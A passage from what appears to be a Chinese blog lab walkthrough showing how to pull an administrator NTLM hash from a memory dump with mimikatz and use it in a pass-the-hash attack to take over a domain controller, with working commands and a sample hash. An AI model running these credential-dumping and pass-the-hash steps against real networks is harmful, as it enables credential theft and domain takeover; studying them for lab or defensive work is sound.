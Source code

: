 域名 => MAO

[![](assets/1706958938-491bbae9756992e6f0df39e92dafaf39.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172304880-1150251025.png)

拿到管理员的 ntml hash => 570a9a65db8fba761c1008a51d4c95ab

```bash
其实通过 mimikatz.exe，啥都满足了：
sekurlsa::minidump ./passwd.dmp
sekurlsa::logonpasswords full
```

[![](assets/1706958938-171c60ebbf9992a2a56d0bf59028f751.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172305175-695771125.png)

### ⑤发起攻击

#### 法一：mimikatz 直接 pth

```bash
sekurlsa::pth /user:<pth 的对象> /domain:<域名> /ntlm:<ntlm hash> [/run:name]

privilege::debug
sekurlsa::pth /user:Administrator /domain:MAO /ntlm:570a9a65db8fba761c1008a51d4c95ab /run:cmd
```

拿下域控权限。(如果参数都填写正确的情况下，还是无法攻击成功的话，尝试关闭 mimikatz 窗口，重新以管理员启动 cmd.exe，重新提升权限，再进行攻击。run 后面的命令不写也行，默认开启域控的 cmd.exe)
